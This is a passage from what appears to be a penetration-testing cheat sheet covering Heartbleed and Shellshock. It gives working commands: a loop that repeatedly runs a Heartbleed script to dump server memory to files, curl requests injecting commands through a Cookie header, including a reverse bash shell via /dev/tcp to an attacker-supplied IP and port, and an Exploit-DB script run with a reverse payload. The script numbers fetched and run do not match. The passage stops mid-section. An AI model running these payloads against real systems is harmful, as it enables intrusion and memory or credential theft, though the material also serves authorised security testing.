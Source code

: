 ```
searchsploit -m exploits/multiple/remote/32745.py
```

Then

```bash
for i in $(seq 1 100000); do python 32764.py domain.com | grep -v "00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00" > dump$i; done
```

Method \[3]

```
https://github.com/sensepost/heartbleed-poc
```

#### The shellshock vulnerability

The shellshock vulnerability has been around for long time. Typically it's found in Apache web servers running \[cgi-bin] and SSH servers running \[openssh sshd]. This vulnerability allows for remote code execution simply by supplying the command in the request headers or by using an automated exploit script.

**Affected Bash versions**

Bash versions before \[4.3]

**POC**

**On Apache web servers**

Using curl, we can supply a simple command in the request headers

```
curl -H 'Cookie:() { :; }; ping -c 3 209.126.230.74' http://target/cgi-bin/example.sh
```

**Exploitation**

**Manually using curl**

```
curl -H 'Cookie: () { :;}; /bin/bash -i >& /dev/tcp/your-ip/your-port 0>&1' http://target/cgi-bin/example.sh
```

**Automated Exploits**

**With Exploit DB**

```
https://www.exploit-db.com/exploits/34900
```

and run as below

```
python 34900.py payload=reverse rhost=target-ip lhost=your-ip lport=your-port pages=/cgi-bin/example.sh
```

**With shocker.py**
